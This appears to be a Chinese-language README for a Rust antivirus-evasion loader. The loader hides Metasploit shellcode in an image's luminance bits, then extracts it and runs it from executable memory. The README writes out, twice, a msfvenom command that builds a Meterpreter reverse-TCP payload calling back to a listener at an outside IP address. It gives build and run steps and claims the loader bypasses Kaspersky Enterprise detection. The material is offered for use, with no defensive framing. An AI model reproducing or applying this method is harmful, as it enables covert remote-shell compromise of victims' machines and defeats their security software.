 ## 信息隐藏 
1.msfvenom生成bin文件：
``` 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.190.89.125 lport=1125 -f bin --arch x64 --platform windows -o test.bin
```
2.将图片RGB转为YCbCr值，获取到3个二维数组 

3.对Y平面数组采用lsb隐写 

4.将YCbCr转为RGB并生成图片 

## 信息读取 
1.将图片RGB转为YCbCr值，获取到3个二维数组 

2.读取Y平面的LSB获取payload 

## 执行payload 

1.分配可读可写可执行内存 

2.写入payload到内存 

3.跳转执行

# 使用方式：
1.msfvenom生成一个payload，必须是bin文件 
``` 
msfvenom -p windows/x64/meterpreter/reverse_tcp lhost=10.190.89.125 lport=1125 -f bin --arch x64 --platform windows -o test.bin
```
2.cargo build --release打包img程序，用得到的隐写程序img.exe将bin文件隐写到jpg文件 
``` 
img.exe hide your_img.jpg test.bin
```
3.cargo build --release打包bypass程序，记得把output.png放到bypass/src/resources目录下，得到bypass.exe 

4.点击bypass.exe即触发执行shellcode

<img width="1926" height="1080" alt="image" src="https://github.com/user-attachments/assets/e8461c1c-2fa6-49e8-8007-356b123c2fd2" />
可过卡巴斯基企业版免杀


